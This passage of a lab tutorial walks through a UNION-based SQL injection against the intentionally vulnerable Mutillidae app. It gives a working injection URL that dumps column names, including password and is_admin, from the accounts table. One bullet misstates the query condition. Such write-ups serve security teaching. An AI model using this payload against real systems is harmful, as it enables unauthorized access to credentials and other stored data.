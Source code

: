 ```
Password=
Signature=

Username=credit_cards
Password=
Signature=

Username=hitlog
Password=
Signature=

Username=pen_test_tools
Password=
Signature=
```

---

### Extracting Sensitive Data 

* Now we have retrieved some table in the previous section.
* In this section we will get the columns from th accounts table and then retreieve the data inside it.

* So first we need to find the names for the columns in the account table.
* So we will have to select all the columns in the table accounts.

* The first thing we change is the table_name to colum_name
* Then we change the information_schema.tables to information_schema.columns.
* Now we change the where table_name = 'owasp10' to where column_name = 'accounts'

```
http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=noone%27%20union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=noone&user-info-php-submit-button=View+Account+Details
```

* The output is the following;

```
Username=username
Password=
Signature=

Username=password
Password=
Signature=

Username=mysignature
Password=
Signature=

Username=is_admin
Password=
Signature=
```
